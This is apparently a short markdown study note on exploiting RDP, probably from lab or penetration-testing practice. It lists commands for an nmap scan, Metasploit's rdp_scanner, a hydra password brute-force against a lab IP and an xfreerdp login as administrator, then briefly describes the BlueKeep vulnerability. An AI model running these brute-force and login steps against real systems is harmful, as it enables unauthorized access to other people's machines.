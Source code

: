 # Exploiting RDP
### RDP
- Remote Desktop Protocol
- GUI remote access
- port 3389 by default
### Exploitation Process
- `$ nmap -sV -p- 10.10.10.10`
- `$ service postgresql start && msfconsole`
- `$ search rdp_scanner` -- we run this to check if the RDP is on the desired port/ if it wasn't set to 3389
- $ performing brute-force on RDP
- **using hydra**
	- `$ hydra -L <user list path> -P <pass list path> rdp://10.10.10.10 3333`
	- `$ xfreerdp /u:administrator /p:llllll /v:10.10.10.10:3333 `

#### CVE-2019-0708 RDP Vulnerability (BlueKeep) - Good Example for RDP Exploitation 
CVE-2019-0708, also known as BlueKeep, is a critical remote code execution vulnerability in Microsoft's Remote Desktop Protocol (RDP) implementation.
The vulnerability allows an attacker to execute arbitrary code on a vulnerable system without authentication. This means that an attacker could exploit the vulnerability to take control of a vulnerable system, steal data, or install malware. 
